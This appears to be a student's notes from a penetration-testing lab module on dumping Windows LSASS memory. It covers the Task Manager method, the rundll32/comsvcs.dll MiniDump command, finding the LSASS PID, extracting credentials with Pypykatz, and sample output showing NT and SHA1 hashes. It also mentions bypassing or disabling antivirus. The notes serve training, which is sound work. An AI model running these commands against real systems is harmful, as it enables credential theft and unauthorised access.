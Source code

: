 #### Task Manager Method

using RDP
-WE CREATE MEMORY DUMP 
-`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`
A file called `lsass.DMP` is created and saved in:
```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```
This is the file we will transfer to our attack host. We can use the file transfer method discussed in the `Attacking SAM` section of this module to transfer the dump file to our attack host.

#### Rundll32.exe & Comsvcs.dll Method
Task Manager method is dependent on us having a GUI-based interactive session with a target.
-dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32).
-It is important to note that modern anti-virus tools recognize this method as malicious activity.
-we must determine what process ID (`PID`) is assigned to `lsass.exe`. This can be done from cmd or PowerShell:

#### Finding LSASS PID in cmd
```cmd-session
C:\Windows\system32> tasklist /svc
```
#### Finding LSASS PID in PowerShell
```powershell-session
PS C:\Windows\system32> Get-Process lsass
```

```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 664 C:\lsass.dmp full
```
modern AV tools recognize this as malicious and prevent the command from executing. In these cases, we will need to consider ways to bypass or disable the AV tool we are facing.

## Using Pypykatz to Extract Credentials

we have the dump file on our attack host
extract credentials from the .dmp file
Pypykatz is an implementation of Mimikatz written entirely in Python
run on Linux-based attack hosts
run Mimikatz directly on the target, which is not an ideal scenario

Recall that LSASS stores credentials that have active logon sessions on Windows systems. When we dumped LSASS process memory into the file, we essentially took a "snapshot" of what was in memory at that point in time. If there were any active logon sessions, the credentials used to establish them will be present. Let's run Pypykatz against the dump file and find out.

LSASS is a subsystem of `local security authority`,

```shell-session
AhmaDb0x@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```
#### MSV
```shell-session
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```
MSV 